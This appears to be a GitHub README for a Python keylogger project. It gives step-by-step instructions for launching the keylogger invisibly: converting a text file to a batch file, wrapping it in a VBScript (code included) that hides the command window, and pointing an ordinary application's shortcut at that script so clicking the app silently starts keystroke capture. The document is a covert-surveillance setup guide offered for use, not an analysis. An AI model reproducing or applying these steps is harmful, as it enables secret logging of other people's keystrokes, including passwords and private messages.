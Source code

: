 # Pykeylogger
Pykeylogger a combination of cmd and the keylogger to start the keylogger with clicking the application

change  file path ("c:/keystrokes/") to your prefered path to save the keystroke text file  
change the two paths in batchconnect.txt
save .txt as .bat

after that you integrate .vbs into your .bat file for an invisible start of the command line

Set WshShell = CreateObject("WScript.Shell") 
WshShell.Run chr(34) & "C:\(batchconnect path)batchconnect.bat" & Chr(34), 0
Set WshShell = Nothing

change the c:\ path to the batchconnect.bat path save the document as .vbs 

right click the application you bound to your keylogger click settings then shortcuts then target and then you copy paste your vbs path in there 
